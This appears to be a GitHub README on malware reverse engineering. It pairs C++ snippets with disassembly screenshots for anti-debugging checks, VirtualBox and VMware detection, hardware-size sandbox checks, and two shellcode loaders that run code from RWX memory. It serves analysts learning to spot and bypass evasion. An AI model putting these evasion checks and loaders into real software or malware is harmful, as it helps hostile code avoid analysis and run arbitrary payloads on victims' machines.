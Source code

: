 ## Malware Techniques -- Code Snippets vs Assembly
The program that I took these code snippets from was my own creation. I wanted to practice identifying and bypassing various anti-analysis checks that I've seen in malware. The way that I designed the program to work is if any of the checks failed, it would return a 1 instead of a 0. If it returned 1, it would increment a total counter. If the result of the counter was anything other than a 0 by the end, the analyst has failed to bypass the checks and it would show the error message. I wanted to mention this in case any readers had any questions regarding the int function types and return values.

---

### Anti-Analyis

#### IsDebuggerPresent
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int basicDebugger()
{
	BOOL basicDebugResult = IsDebuggerPresent();
	if (basicDebugResult == TRUE) {
		return 1;
	}
	return 0;
}
```

</td>
<td>	

![IsDebuggerPresent](Pictures/IsDebuggerPresent.png)

</td>
</tr>
</table>
	
---

#### Total RAM Amount
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int ramCheck()
{
	MEMORYSTATUSEX statex;
	statex.dwLength = sizeof(statex);
	GlobalMemoryStatusEx(&statex);
	int ramResult = (float)statex.ullTotalPhys / (1024 * 1024 * 1024);
	if (ramResult < 6) {
		return 1;
	}
	return 0;
}
```

</td>
<td>

![TotalRAM](Pictures/ramCheck.png)

</td>
</tr>
</table>

---

#### Total Processor Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int procCheck()
{
	unsigned logicalCpuCount;
	SYSTEM_INFO systemInfo;
	GetSystemInfo(&systemInfo);
	logicalCpuCount = systemInfo.dwNumberOfProcessors;
	if (logicalCpuCount < 4) {
		return 1;
	}
	return 0;
}
```

</td>
<td>

![TotalProc](Pictures/procCheck.png)

</td>
</tr>
</table>

---

#### Total Disk Size Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int diskCheck()
{
	HANDLE hDevice = CreateFileW(L"\\\\.\\PhysicalDrive0", 0, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
	DISK_GEOMETRY pDiskGeometry;
	DWORD bytesReturned;
	DeviceIoControl(hDevice, IOCTL_DISK_GET_DRIVE_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);
	DWORD diskSizeGB;
	diskSizeGB = pDiskGeometry.Cylinders.QuadPart * (ULONG)pDiskGeometry.TracksPerCylinder * (ULONG)pDiskGeometry.SectorsPerTrack * (ULONG)pDiskGeometry.BytesPerSector / 1024 / 1024 / 1024;
	
	if (diskSizeGB < 250) {
		return 1;
	}

	return 0;
}
```

</td>
<td>

![Disk Check](Pictures/diskCheck.png)

</td>
</tr>
</table>

---

#### GetTickCount
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int getTickCheck()
{
	unsigned int timestampOne = GetTickCount();
	OutputDebugString(L"Debug");
	unsigned int timestampTwo = GetTickCount();
	unsigned int difference = timestampTwo - timestampOne;
	if (difference > 1000) {
		return 1;
	}
	return 0;
}
```

</td>
<td>

![GetTickCount](Pictures/GetTickCount.png)

</td>
</tr>
</table>

---

#### CheckRemoteDebuggerPresent
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int advancedDebug()
{
	BOOL isRemoteDebuggerPresent = FALSE;
	CheckRemoteDebuggerPresent(GetCurrentProcess(), &isRemoteDebuggerPresent);

	if (isRemoteDebuggerPresent == TRUE) {
		return 1;
	}
	return 0;
}
```

</td>
<td>

![CheckRemoteDebuggerPresent](Pictures/CheckRemoteDebuggerPresent.png)

</td>
</tr>
</table>

---

#### VirtualBox Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int vboxCheck()
{
	// Look for VirtualBox files
	WIN32_FIND_DATAW findFileData;
	if (FindFirstFileW(L"C:\\Windows\\System32\\VBox*.dll", &findFileData) != INVALID_HANDLE_VALUE) return 1;

	// Look for VirtualBox registry keys
	HKEY hkResult;
	if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SYSTEM\\ControlSet001\\Services\\VBoxSF", 0, KEY_QUERY_VALUE, &hkResult) == ERROR_SUCCESS) return 1;

	return 0;
}
```

</td>
<td>

![VirtualBox Check](Pictures/vboxCheck.png)

</td>
</tr>
</table>

---

#### VMware Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int vmWareCheck()
{
	// Look for VMware files
	WIN32_FIND_DATAW findFileData;
	if (FindFirstFileW(L"C:\\Windows\\System32\\drivers\\vmmouse.sys", &findFileData) != INVALID_HANDLE_VALUE) return 1;

	// Look for VMware registry keys
	HKEY hkResult;
	if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SOFTWARE\\VMware, Inc.\\VMware Tools", 0, KEY_QUERY_VALUE, &hkResult) == ERROR_SUCCESS) return 1;

	return 0;
}
```

</td>
<td>

![VMware Check](Pictures/vmwareCheck.png)

</td>
</tr>
</table>

---

---

### Launching Payloads

#### Grabbing Payload from Resources
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int main()
{
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(101), L"calc_bin");
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);

    HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

    void* exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcodeResouceData, shellcodeSize);
    ((void(*)())exec)();

    return  0;
}
```

</td>
<td>

![Resource Loader](Pictures/resourceLoader.png)

</td>
</tr>
</table>

---

#### Basic Shellcode Execution
*Note that this is also useful from the malware analysis side to load identified shellcode*
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int main()
{
    unsigned char buf[] =
        "[SHELLCODE \xBYTES GO HERE]";

    void* exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof(buf));
    ((void(*)())exec)();
}
```

</td>
<td>

![BasicShellcodeExec](Pictures/BasicShellcodeExec.png)

</td>
</tr>
</table>

---

